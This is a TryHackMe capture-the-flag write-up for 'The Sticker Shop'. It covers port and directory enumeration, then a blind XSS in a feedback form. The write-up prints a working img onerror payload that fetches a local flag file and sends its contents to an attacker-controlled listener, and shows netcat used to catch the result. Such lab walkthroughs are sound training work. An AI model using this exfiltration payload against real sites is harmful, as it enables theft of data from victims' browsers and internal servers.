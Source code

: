 # THM - The Sticker Shop
This is a TryHackMe CTF room. 
"Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!"

## Enumeration 
started VM with the IP `http://10.10.27.75:8080`. the goal is to get the flag at `http://TARGET_IP:8080/flag.txt`
Started GoBuster using the medium dir list.
```
gobuster dir -u http://10.10.27.75:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.75:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/view_feedback        (Status: 401) [Size: 25]
Progress: 220560 / 220561 (100.00%)
```
then scanned all ports on the target machine.
```
sudo nmap -sS -sV -T5 -vv 10.10.27.75 -allports

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 61 Werkzeug/3.0.1 Python/3.8.10
```
I then cURL'd the target to review the code and found a submit feedback link.
```
<header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
```
Further investigating reveals that the submit uses a POST method; potential entry point. I tried to go straight to the flag.txt and get a "401 Unauthorized"

Going straight to /submit_feedback shows:
![submit feedback screenshot](https://github.dev/MrGallifrey912/Hacking-Resources/blob/d21a916a7102d56aaeaf90efe753a402f175694a/Sticker-Shop%20CTF/Images/Pasted%20image%2020241229221603.png)

So this shows me that I can potentially exploit the text input.

## Exploring potentials
so there are a couple train of thoughts I considered looking for using BurpSuite and DevTools.
* session cookies
* weird headers
* hidden directories

There are no session cookies or weird headers that stick out to me. However I did discover a /view_feedback directory.  This turned out to be behind a 401 unauthorized response, I don't feel this is relevant.

I tried to validate XSS by submitting a basic script tag to alert XSS. This did not prove to work and sent me down a couple other methods of exploitation that were not promising. I used python to create a couple scripts to group and automate some of these tasks, including:
* Cross-Site Request Forgery (CSRF)
* Insecure Direct Object References (IDOR)
* Local File Inclusion (LFI) or Remote File Inclusion (RFI)
* Reflective File Access
None of these seemed to bare fruit and I started to feel XSS was the answer and started researching potential payloads since the delivery method has to be the text input.

# XSS Exploitation
I determined that XSS had to be the exploit to get the flag, but how? I researched some payloads, I kept getting some basic ones that did not work, I didn't find them though I am sure they exist and I admit I didn't look to hard. I found a write-up on this specific box with the answer obfuscated and skimmed it. 

I would have never got this without help. the payload seems more complicated than I would have been able to write or even find. So the test payload looks like this:

```
<img src=x onerror="fetch('http://ATTACKER_IP:PORT')"/>
```

The payload works as a basic XSS attack. what happens is:
* `<img/>` tag is inserted with the source of x(`src="x"`). Because the source is invalid you need an `onerror` event
* `"fetch()"`: is used to call API's I believe. in this case we are going to insert our attacking ip(`'http://ATTACKER_IP:PORT'`) 
* `PORT`: the port you assign in a netcat listener

This needs to be submitted in the text input once you have a netcat listener setup on a specified port, I used:

```
nc -knvlp 8000
listening on [any] 8000 ...
```

Once listening you can submit the above payload. it will take a second or two to receive a response:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 56902
GET / HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

This proves XSS can be achieved. the payload to now get the flag is:

```
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r)).catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"/>
```

Okay so lets break this down before submitting, first I had to initiate another listener before submitting. This payload can be parsed as such:
* `"fetch('127.0.0.1:8080/flag.txt')`: This makes a request to the local server of the Target_Machine and 127.0.0.1 is the loopback address. If the flag is stored in a file, this attempts to retrieve its contents.
* `.then(r => r.text())`: If the content in the flag is fetched, the `.text()` method extracts the contents as text.
* `.then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r))`: This section sends the contents to your listener by appending the contents of the flag as a query parameter (`?c=<flag content>`).
* `.catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"`: This catches any errors if for any reason the request to the flag fails. `catch` sends any errors to the attacker, using the (`?c=<error message>`) again.

So with your listener back up and running, submit the final payload. You should see:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 45532
GET /?c=THM{█████████████████████████████████████████} HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gec HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

# Summary

* XSS was the vector of exploitation due to the application allowing a user to inject and execute arbitrary JavaScript in the browser.
* I leveraged JavaScript's `fetch()` method to access the flag located on the victims local server and exfil the contents.
* The payload executed successfully due to the lack of input sanitization or proper output encoding by the application, if these measures were in place this would not be an attack vector.

# Conclusion
I did not write or create the payload but after further research I can see how it was put together. Huge shoutout to Jay Bhatt's medium post that provided the payload and a much more concise walkthrough of The Sticker Store box on THM. I personally thought I could exploit a different way and narrowed down to XSS. I worked through my own process till I hit a wall and sought assistance.

Tools used:
* GoBuster
* Nmap
* Burpsuite
* cURL
* NetCat
* Python3
